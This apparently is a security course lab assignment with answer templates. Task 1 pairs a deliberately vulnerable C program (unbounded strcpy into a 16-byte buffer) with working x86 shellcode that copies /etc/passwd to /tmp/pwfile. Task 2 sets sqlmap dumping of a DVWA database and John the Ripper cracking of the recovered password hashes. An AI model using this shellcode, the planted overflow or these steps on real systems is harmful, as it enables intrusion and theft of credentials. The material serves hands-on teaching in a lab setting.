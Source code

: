 # Task 1: Software buffer overflow attack

Given a vulnerable C program

```
#include <stdio.h>
#include <string.h>
void redundant_code(char* p)
{
    char local[256];
    strncpy(local,p,20);
	printf("redundant code\n");
}
int main(int argc, char* argv[])
{
	char buffer[16];
	strcpy(buffer,argv[1]);
	return 0;
}
```

and a shellcode source in asm. This shellcode copy /etc/passwd to /tmp/pwfile

```
global _start
section .text
_start:
    xor eax,eax
    mov al,0x5
    xor ecx,ecx
    push ecx
    push 0x64777373
    push 0x61702f63
    push 0x74652f2f
    lea ebx,[esp +1]
    int 0x80

    mov ebx,eax
    mov al,0x3
    mov edi,esp
    mov ecx,edi
    push WORD 0xffff
    pop edx
    int 0x80
    mov esi,eax

    push 0x5
    pop eax
    xor ecx,ecx
    push ecx
    push 0x656c6966
    push 0x74756f2f
    push 0x706d742f
    mov ebx,esp
    mov cl,0102o
    push WORD 0644o
    pop edx
    int 0x80

    mov ebx,eax
    push 0x4
    pop eax
    mov ecx,edi
    mov edx,esi
    int 0x80

    xor eax,eax
    xor ebx,ebx
    mov al,0x1
    mov bl,0x5
    int 0x80

```

**Question 1**:

- Compile asm program and C program to executable code.
- Conduct the attack so that when C program is executed, the /etc/passwd file is copied to /tmp/pwfile. You are free to choose Code Injection or Environment Variable approach to do.
- Write step-by-step explanation and clearly comment on instructions and screenshots that you have made to successfully accomplished the attack.
  **Answer 1**: Must conform to below structure:

Description text (optional)

```
    code block (optional)
```

output screenshot (optional)

**Conclusion**: comment text about the screenshot or simply answered text for the question

# Task 2: Attack on database of DVWA

- Install dvwa (on host machine or docker container)
- Make sure you can login with default user
- Install sqlmap
- Write instructions and screenshots in the answer sections. Strictly follow the below structure for your writeup.

**Question 1**: Use sqlmap to get information about all available databases
**Answer 1**:

**Question 2**: Use sqlmap to get tables, users information
**Answer 2**:

**Question 3**: Make use of John the Ripper to disclose the password of all database users from the above exploit
**Answer 3**:
